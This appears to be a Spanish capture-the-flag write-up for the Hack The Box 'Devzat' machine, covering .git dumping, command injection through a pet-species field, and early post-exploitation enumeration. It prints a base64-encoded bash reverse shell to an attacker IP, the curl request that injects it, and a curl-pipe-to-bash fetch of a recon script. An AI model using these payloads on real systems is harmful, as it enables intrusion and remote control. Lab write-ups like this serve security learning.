 ![devzat1](https://user-images.githubusercontent.com/96772264/200538205-71d74bc3-1fbc-4c39-b329-81758c318486.PNG)

Hay una herramienta para armar los repos llamada git-dumper ```sudo pip install git-dumper```  
```console
└─$ git-dumper http://pets.devzat.htb/.git/ ./.git
└─$ git log 
ef07a04 (HEAD -> master) back again to localhost only  
464614f fixed broken fonts
8274d7a init
└─$ git diff ef07a04 464614f  # Ahora solo funciona en el localhost, puerto 5000
└─$ git diff ef07a04 8274d7a  # Tema de fuentes 
└─$ git branch -a  # Solo la * master (para las otras igual) 
```
En la carpeta **/characteristics** hay archivos de varios animales con textos "Having a cat is like living in a shared apartment."  
El codigo fuente de la app está en **/src/App.svelte** y **/main.go**   
Analizamos el main.go en busqueda de funciones peligrosas:  
```console
└─$ cat main.go | grep -E "system|exec"
cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
```
Parece que hay que introducirle un animal y te muestra su seccion de la carpeta characteristics.    
O sea si species es *gato* pues te sale lo del *gato*.    

En la web hay una sección para elegir un animal y que se añada a la lista con la descripción.    
Ej si pones un perro llamado "Pizarro" se añadira con la descripción del perro de la carpeta **/characteristicas**  

![devzat3](https://user-images.githubusercontent.com/96772264/200538269-59677299-2982-4327-8aef-d2c4588abbd5.PNG)

Añadimos un gato llamado "Benito":  
```/POST a http://pets.devzat/api/pet {"name":"Benito","species":"cat"}```
Segun lo de antes la parte vulnerable es species.  

Si pongo ";id" en species no sale nada raro, pero si me hago un ping ```";ping -c 1 10.10.14.12"``` recibo traza (```sudo tcpdump -i tun0 icmp -n```)
```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
└─$ curl -s -X POST "http://pets.devzat.htb/api/pet" -H "Content-type: application/json"
-d '{"Name":"Benito", "Species":"; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash "}'
```
-----------------------------
## Part 4: Entrando en el sistema

Recibimos una consola como el tal patrcick con netcat ```sudo nc -nlvp 443```  
Corremos nuestro script de reconocimeinto ```curl http://10.10.14.12/lin_info_xii.sh | bash```:  
- Somos patrick, el resto de usaurios son root y catherine  
- Hay dos backups /var/backups/devzat-dev.zip y /var/backups/devzat-main.zip  
- Se esta corriendo por root -> /root/devzat/start.sh devchat  
- No hay capabilities ni SUIDs interesantes  
- Tanto el puerto 8086, como el 5000 como el 8443 están abiertos solo al localhost  
Antes habiamos leido que el devchat corre por el localhost en el puerto 5000:  
```console
patrick@devzat:~/pets$ ssh -l patrick 127.0.0.1 -p 5000
kex_exchange_identification: Connection closed by remote host
```
En cuanto a los puertos 8086 y 8443:  
```console
patrick@devzat:/home/catherine$ curl http://127.0.0.1:8443
curl: (1) Received HTTP/0.9 when not allowed
```
Haremos port forwarding para traernoslos mejor.  
```console
patrick@devzat:/home/catherine$ cd /tmp
```